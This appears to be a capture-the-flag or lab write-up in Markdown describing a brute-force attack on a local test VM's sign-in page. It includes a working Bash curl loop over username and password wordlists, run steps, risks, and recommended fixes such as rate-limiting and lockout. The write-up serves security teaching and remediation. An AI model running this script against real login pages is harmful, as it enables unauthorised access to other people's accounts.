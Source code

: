 #  Brute-force Attack on Login Page

##  Description

The login page located at `http://192.168.56.106/?page=signin` is vulnerable to a brute-force attack. No rate-limiting or account lockout mechanisms are in place, allowing an attacker to automate login attempts using common usernames and passwords. A successful login reveals a flag in the response, indicating a security flaw.

##  Steps to Reproduce

1. Prepare two wordlists:
   - git@github.com:duyet/bruteforce-database.git
   - A list of common usernames (e.g. `38650-username-sktorrent.txt`)
   - A list of common passwords (e.g. `10k-most-common.txt`)

2. Use the following Bash script to automate the brute-force attack:

   ```bash
   URL="http://192.168.56.106/?page=signin"
   USERFILE="38650-username-sktorrent.txt"
   PASSFILE="1000000-password-seclists.txt"

   while read -r username; do
     while read -r password; do
       response=$(curl -s "$URL&username=$username&password=$password&Login=Login#")

       echo "$response" | grep -q "flag"
       if [ $? -eq 0 ]; then
         echo "TROUVÉ : $username / $password"
         echo
         echo "Contenu de la réponse :"
         echo "$response"
         exit 0
       fi
     done < "$PASSFILE"
   done < "$USERFILE"

   echo "pas de correspondance"
   ```

3. Run the script:
   ```bash
   chmod +x bruteforce.sh
   ./bruteforce.sh
   ```

4. The script will display the correct credentials and the response containing the flag when a match is found.

## ️ Risks

- **Brute-force vulnerability**: An attacker can guess credentials by automating thousands of login attempts without any limitation.

- **Sensitive data exposure**: Logged-in users may access confidential information such as flags, internal messages, or user records.
- **Lack of security defenses**: No CAPTCHA, rate-limiting, or IP blocking means attackers can run automated scripts freely.


##  Recommended Fix

- **Implement rate-limiting** on login attempts per IP to prevent rapid-fire brute-force attacks.
- **Introduce account lockout or throttling** after several failed login attempts.
- **Enforce strong password policies** for all users, including length, complexity, and periodic rotation.
- **Add CAPTCHA** to login forms, especially after multiple failures.
- **Implement Multi-Factor Authentication** to prevent unauthorized access even with valid credentials.
- **Use generic error messages** like “Invalid credentials” instead of revealing whether the username or password is incorrect.
- **Monitor and log failed login attempts** and trigger alerts for suspicious activity.

---

